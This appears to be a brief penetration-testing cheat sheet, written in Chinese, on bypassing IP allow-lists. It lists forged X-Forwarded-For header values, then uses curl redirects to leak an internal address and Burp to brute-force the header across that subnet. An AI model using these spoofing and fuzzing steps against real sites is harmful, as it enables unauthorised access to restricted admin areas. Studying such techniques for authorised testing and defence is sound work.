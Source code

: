 > Don't allow From this IP Address

- X-Forwarded Header
## IP伪造
- X-Forwarded-For: 127.0.0.1
- X-Forwarded-For: 10.x.x.x
- X-Forwarded-For: localhost
- X-Forwarded-For: 127.1

### IP伪造+信息泄露
- ERR_INVALID_REDIRECT
1. 第一次
```Bash
curl -I Https://xxxxx.com/xxx/admin
```

```HTTP
HTTP/1.1 301 Moved 
.....
Location: Https://xxxxx.com/xxx/admin/
```
2. 第二次
```bash
curl -I Https://xxxxx.com/xxx/admin/
```

```HTTP

HTTP/1.1 301 Moved 
.....
Location: http://10.0.15.200
```

3. Burp 爆破`10.0.15.FUZZ`    FUZZ:`0-256`
```HTTP
X-Forwarded-For: 10.0.15.FUZZ
```


